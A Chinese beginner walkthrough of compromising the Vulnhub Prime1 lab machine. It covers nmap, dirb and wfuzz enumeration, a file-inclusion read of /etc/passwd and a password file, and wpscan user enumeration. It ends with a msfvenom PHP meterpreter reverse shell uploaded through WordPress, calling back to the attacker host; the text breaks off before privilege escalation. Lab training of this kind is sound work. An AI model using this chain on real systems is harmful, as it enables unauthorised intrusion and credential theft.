# 保姆级讲解攻击vulnhub的prime1

**环境：**
- **攻击机：** kali2025
- **靶机：** 由kali2025内置docker拉取vulhub的prime1
- **注：** 攻击机(192.168.85.135)和靶机（192.168.85.133）（均为虚拟机）在同一网段

部署prime1后打开虚拟机为如下内容：



获取到有效信息：`password.txt`, 先记下后面有用。随后使用攻击机进行nmap扫描，确定ip与端口，因为攻击机和靶机在同一网段，所以直接扫攻击机的c段寻找靶机ip和开放端口(这个靶机环境默认只开启80和22端口所以很好找)

```bash
nmap 192.168.85.135/24
```



当然还有一技用于找靶机点虚拟机设置，找到网络适配器，再点高级



这里面有虚拟机的mac地址，对应nmap的结果找就行



看到开启22和80端口，因为80端口的web服务更容易渗透优先测试80端口在浏览器打开靶机的web页面



可以看到没有任何有效信息，检查网页源代码也没有东西，这种情况直接kali的dirb开扫（dirsearch也行这里推荐使用，这里不会漏信息而且更加清晰。两个可以结合用。）

这里用的dirsearch，dirb扫完结果一言难尽



这里是dirb扫的结果



- `/dev`
- `/image.php`
- `/wordpress`
- `/wordpress/wp-login.php`

有这些目录，一个一个看

`/dev`



**中文翻译：** 你好，现在你处于0 级入门阶段。在真实的渗透测试工作中，我们要善用工具，对网站进行深度探测与挖掘。祝渗透顺利/ 玩转黑客之道。

显然没什么用再看image.php,源代码没有东西跟index.php没有区别，但是后面会用



再看/wordpress，显然是一个wordpress框架写的一个网站，另一个不用说是他的登录接口



不过要啥没没啥，也登不进去。这时候继续思考，或许是不是还有关键信息没扫出来，不妨换个方式继续扫



使用dirb换个方式扫，扫这些后缀的文件，当然可以加其他比如.bak,.zip之类的敏感文件，这里这两个就够了（用dirb，亲测dirsearch扫不出来，要不你就换字典，默认字典不行）

```bash
dirb http://192.168.85.133/ -X .php,.txt
```



又扫出来一个secret.txt进去看看



**中文翻译：** 看来你已经发现了一些秘密。好的，我只是想帮你一把。对你找到的所有PHP 页面继续做模糊测试（Fuzz）。如果你找到了可用参数，就按下面步骤继续。如果还是卡住了，就从这里学习一款适合OSCP 的基础工具用法。

https://github.com/hacknpentest/Fuzzing/blob/master/Fuzz_For_Web

// 查看location.txt，你就知道下一步怎么走//

又获得一部分信息location.txt（当然如果你字典比较好一次性就能全扫出来，作者使用的都是默认字典）

打开看看



看来不给访问，继续想办法。里面提到用fuzz找参数，根据提示开干首先捋一律，能访问的php文件image.php，index.php

使用kali自带wfuzz

```bash
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt http://192.168.85.133/index.php?FUZZ=123
```
（-c是彩色输出，-w指定字典，FUzz是占位用的）

这样fuzz一下


结果发现900多条记录找不同实在太难，修改payload，加入–hh是过滤chars也就是字符数，也可以–hw过滤单词word数，–hl过滤行

```bash
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hh 136 http://192.168.85.133/index.php?FUZZ=123
```


这道题我们过滤word或者chars都可以，结果得到一个file的参数（别忘了image.php，这个什么参数都扫不到就不放出来了）

ok接下来利用这个file参数这个file一看就是文件包含，不过好像不能随意包含文件比如/etc/passwd

诶嘿，这时候想到之前location.txt不是访问不了吗，包含试试


诶，一看提示something better给对上了。给大家伙翻译一下很好，你已经找到了正确参数。

继续往下挖掘，寻找下一个线索。

在其他PHP 页面上使用secrettier360 这个参数继续探索。

提示其他php页面使用secrettier360这个参数，那不用想只剩image.php了。开搞


我们找到正确参数了，肯定得先试试文件包含，先包含/etc/passwd试试


可以正常包含这就好办了。

不必多说，掏出来中国蚁剑。文件包含一句话木马基本功。用python开个http服务(python -m http.server)来个远程包含。

反转来了，不能远程包含,坏菜了。思路不对，回头尝试包含其他东西寻找信息重新打开/etc/passwd文件，好小子藏这了


根据提示，`/home/saket/password.txt` 访问这个目录打开一看结果是 `follow_the_ippsec` 这个想一想能有什么用呢，既然在password.txt里面肯定是密码喽能用密码的地也就只有wordpress登录界面喽。那问题来了，账号呢？

这时百度一下发现有一个wpscan的软件是专门用于wordpress的漏扫工具（也可以扫用户名），进入官网（kali自带，但是需要api-key，注册后有免费额度）



保姆级教程



点getstart后往下滑



key在这



接下教你怎么使用

```bash
wpscan --url http://192.168.85.133/wordpress --enumerate u --api-token 你的key
```
（扫用户）

只扫到一个用户名（victor）

```bash
wpscan --url http://192.168.85.133/wordpress --api-token 你的key
```
（扫漏洞）

扫出来一堆漏洞警告，也可以从这里突破，不过咱们继续按照出题人的思路来得到账号密码了现在

**victor：follow_the_ippsec**

试了一下果然登陆成功了，看起来想wordprss的后台



找找接口突破，这里一个上传接口直接给放出来了，那么一句话木马梭哈然后传msf的木马进行后渗透，或者msf本身就有php编码的木马。ok开搞



```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.85.135 LPORT=8888 -e php/base64 -f raw -o shell.php
```
- `-f raw` 是输出原始php代码
- `-o` 输出位置和文件名把shell.php里面的内容复制上传（这里有个误区，有可能生成后的代码里面没有php标签，需要手动加上，不然不执行）

在msfconsole开启监听8888端口



在wordpress中，secret.php其实是位于wordpress/wp-content/themes/twentynineteen目录下的，因此我们通过访问该目录下的secret.php即可反弹shell，即访问http://192.168.85.133/wordpress/wp-content/themes/twentynineteen/secret.php。

这里成功建立反弹连接，接下来就是后渗透环节，进行提权



得到root权限才算胜利，继续搞，下一步收集信息找漏洞提权执行sysinfo

